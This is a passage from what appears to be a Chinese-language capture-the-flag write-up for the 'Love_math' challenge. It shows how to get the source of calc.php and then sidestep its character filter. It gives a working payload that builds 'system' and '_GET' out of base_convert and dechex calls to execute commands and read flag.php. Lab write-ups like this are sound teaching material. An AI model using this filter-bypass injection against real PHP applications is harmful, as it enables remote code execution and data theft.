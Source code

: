得到flag

flag{3f4abe8b-aa4a-bb48-c2f9f04d045beade}



## Love_math

更改 calc.php 的 GET 为 POST，post 参数 c，能够获得 calc.php 的源码。通过审计代码知道过滤了空格，单引号，双引号等。$,(),{}均可以使用。还有一堆跟 math 有关的函数。我们利用 base_convert 和 dechex 可以构造出
字符串_GET 和字符串 system。在网上找了个异或脚本，因为我们要用到 dechex，所以稍微修改了一下，限制了循环的范围

![](https://wulasite.top/mdimage/guosai/calc.png)

获取到两个字符串 itv7 633c 前者用 base_convert 转换，后者用 dechex 转
换。
构造出 payload：
calc.php?c=base_convert(1751504350,10,36)(${base_convert(878515,10,
36)^dechex(25404)}{pi})&pi=cat<flag.php

（同 c=system(${_GET}{pi})&pi=cat<flag.php）

